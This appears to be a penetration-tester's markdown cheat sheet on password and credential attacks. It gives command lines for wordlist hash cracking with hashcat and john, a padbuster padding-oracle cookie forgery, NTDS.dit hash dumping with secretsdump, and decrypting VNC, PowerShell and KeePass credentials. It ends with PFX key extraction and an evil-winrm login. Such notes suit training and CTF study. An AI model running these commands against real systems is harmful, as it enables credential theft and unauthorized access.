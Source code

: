 # Passwords and hashes
Ways to break password hashes, or just methods to make the brute-force easier.

# Adding salt (as a normal string) to a password file
This is if the password has no salt shown, because it has been concatenated when encrypting, therefore the salt has to be added to the dictionary, line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```


# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.
[https://www.kali.org/tools/cewl/](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
```bash
# Decrypt
padbuster <url> "cookie" 8 -encoding 0 -cookies "cookiename=cookie"

# Encrypt new cookie
padbuster <url> "old_cookie" 8 -encoding 0 -cookies "auth=old_cookie" -plaintext "user=admin"
```

### Reference
- [https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)


# Powershell credentials file
The command below can be used to decrypt a given credentials file. **(has to be logged in as the user)**
```powershell
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```

# VNC passwords
[https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py)     
Use the tool above to decrypt a VNC password hash
```bash
python vncpasswd.py -d -f <hashfile>
```

# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with hashcat, this will give you the **master password**    
    ```bash
    hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run, `find .` in `kpcl`i will list all of the passwords
5. `show -f [num]` will print a password based on the number that was input 

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
Assuming these files are on your local machine already.  
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

### Troubleshooting
#### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.

### References
- [https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes](https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/post-exploitation/extracting-credentials/retrieve-windows-hashes)
- [https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)

# PFX files
Password protected file certificate commonly used for code signing your application. It derives from the PKCS 12 archive file format certificate, and it stores multiple cryptographic objects within a single file     

## Extract private key and certificate
```bash
# PRIVATE KEY
openssl pkcs12 -in <pfx_file> -nocerts -out private.key

# CERTIFICATE
openssl pkcs12 -in <pfx_file> -clcerts -nokeys -out certificate.crt
```

### Password protection
`pfx2john` can turn these files into a hash which can be brute-forced to extract password.
```bash
# Make hash file
pfx2john.py <file> > <hashfile>

# Dictionary attack
john -w=/usr/share/wordlists/rockyou.txt <hashfile>

# Brute force
john  <hashfile>

# One liners
pfx2john <file>  |john /dev/stdin
pfx2john <file>  |john -w=/usr/share/wordlists/rockyou.txt /dev/stdin
```

## Login with evil-winrm
```bash
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```